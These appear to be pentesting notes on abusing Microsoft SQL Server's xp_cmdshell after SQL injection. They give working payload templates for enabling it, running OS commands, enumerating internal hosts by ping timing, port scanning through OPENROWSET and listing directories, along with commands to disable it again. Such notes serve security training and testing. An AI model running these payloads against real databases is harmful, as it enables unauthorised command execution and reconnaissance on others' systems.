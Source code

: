 ### xp_cmdshell
- The **sa** user has complete control over the DBMS, the databases it contains and the advanced features.
- Most of the functionalities useful For a pentester exploit the **xp_cmdshell** stored procedure.

```
EXEC master..xp_cmdshell '<command>'
   // xp_cmdshell is not enabled by default and requires 'sa' privileges
```

To enable we have to issue the following commands:
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

To disable:
```
EXEC sp_configure 'xp_cmdshell', 0;
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
```

### Internal Network Host Enumeration
- By using xp_cmdshell we can launch some commands on the database server. 
- We can combine this with some other SQL Server features to mount a host enumeration utility via SQL injections.

Example using a PING:
```
EXEC master.dbo.xp_cmdshell 'ping <target IP address>'
```

// we can use the query execution time to infer the ping result.
// by default the MS ping sends 4 ICMP echo requests. This means that pinging a live host takes about 5 to 8 seconds, while pinging a bogus IP address takes from 20 to 30 seconds.

### Port Scanning
- OPENROWSET is a SQL server method you can use to access the tables of a remote server. It needs the IP address and the port to connect to. 

This can be exploited to create a port scanner.
```
SELECT * from OPENROWSET('SQLOLEDB', 'uid=sa;pwd=something;Network=DBMSSOCN;Address=<target ip>, <target port>; timeout=<connection timeout in seconds>', 'select 1')--
```

- if the port is closed = SQL Server does not exist or access denied
- if the port is open = General network error / Check your network documentation
- if error are hidden and the port is closed the connection will timeout according to the <connection timeout in seconds> value.

### Reading the File System
```
EXEC master..xp_cmdshell 'dir <target directory>'
```
// that will return the directory listing of <target directory>
